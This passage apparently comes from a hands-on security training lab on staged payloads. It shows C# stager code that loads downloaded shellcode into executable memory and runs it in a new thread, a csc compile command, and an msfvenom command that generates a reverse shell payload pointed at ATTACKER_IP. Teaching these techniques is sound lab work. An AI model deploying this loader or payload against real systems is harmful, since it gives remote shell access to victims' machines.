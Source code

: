 Once our shellcode is downloaded and available in the `shellcode` variable, we'll need to copy it into executable memory before actually running it. We use `VirtualAlloc()` to request a memory block from the operating system. Notice that we request enough memory to allocate `shellcode.Length` bytes, and set the `PAGE_EXECUTE_READWRITE` flag, making the assigned memory executable, readable and writable.  Once our executable memory block is reserved and assigned to the `codeAddr` variable, we use `Marshal.Copy()` to copy the contents of the `shellcode` variable in the `codeAddr` variable.

```csharp
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Now that we have a copy of the shellcode allocated in a block of executable memory, we use the `CreateThread()` function to spawn a new thread on the current process that will execute our shellcode. The third parameter passed to CreateThread points to `codeAddr`, where our shellcode is stored, so that when the thread starts, it runs  the contents of our shellcode as if it were a regular function. The  fifth parameter is set to 0, meaning the thread will start immediately.

Once the thread has been created, we will call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread  execution to finish before continuing. This prevents our program from  closing before the shellcode thread gets a chance to execute:

```csharp
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

To compile the code, we suggest copying  it into a Windows machine as a file called staged-payload.cs and  compiling it with the following command:

- **PowerShell**        

```shell-session
PS C:\> csc staged-payload.cs
        
```

Using our stager to run a reverse shell

Once our payload is compiled, we will need to set up a web server to  host the final shellcode. Remember that our stager will connect to this  server to retrieve the shellcode and execute it in the victim machine  in-memory. Let's start by generating a shellcode (the name of the file  needs to match the URL in our stager):

- **AttackBox**        

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
        
```

Notice that we are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.
